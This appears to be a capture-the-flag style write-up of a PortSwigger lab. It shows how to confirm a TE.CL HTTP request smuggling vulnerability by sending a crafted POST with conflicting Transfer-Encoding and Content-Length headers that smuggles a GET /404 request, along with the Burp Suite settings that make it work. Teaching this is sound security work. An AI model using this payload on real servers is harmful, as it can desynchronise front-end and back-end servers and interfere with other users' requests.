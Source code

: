 # HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses), you'll learn: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a 404 Not Found response.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-5/images/Pasted%20image%2020230128190147.png)

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-5/images/Pasted%20image%2020230128190204.png)

We can send this request to Burp Suite's Repeater:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-5/images/Pasted%20image%2020230128190221.png)

Then change the request method to POST:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-5/images/Pasted%20image%2020230128190345.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-5/images/Pasted%20image%2020230128190351.png)

Now, we can try to test the web application is vulnerable to TE.CL HTTP request smuggling (Front-end uses `Transfer-Encoding` header, back-end uses `Content-Length` header).

**To do send, we first send an attack request:**
```http
POST / HTTP/1.1
Host: 0aa8008603dfb20dc1821ccb00080051.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 4

a7
GET /404 HTTP/1.1
Host: 0aa8008603dfb20dc1821ccb00080051.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0


```

> Note: You need to include the trailing sequence `\r\n\r\n` following the final `0`, and go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

This attack request will:

- The front-end server uses `Transfer-Encoding` header, which means it'll see hex chunk `a7` (Decimal 167)
- The back-end server uses `Content-Length` header, which means it'll just see `a7\r\n`. That being said, the back-end server will see:

```http
GET /404 HTTP/1.1
Host: 0aa8008603dfb20dc1821ccb00080051.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0


```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-5/images/Pasted%20image%2020230128191347.png)

**After that, we can send a normal GET request:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-5/images/Pasted%20image%2020230128191436.png)

**Smuggled normal GET request:**
```http
GET /404 HTTP/1.1
Host: 0aa8008603dfb20dc1821ccb00080051.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0

GET / HTTP/1.1
[...]
```

Nice! We successfully smuggled an attack 404 GET request, and can confirm the web application is vulnerable to TE.CL HTTP request smuggling.

# What we've learned:

1. HTTP request smuggling, confirming a TE.CL vulnerability via differential responses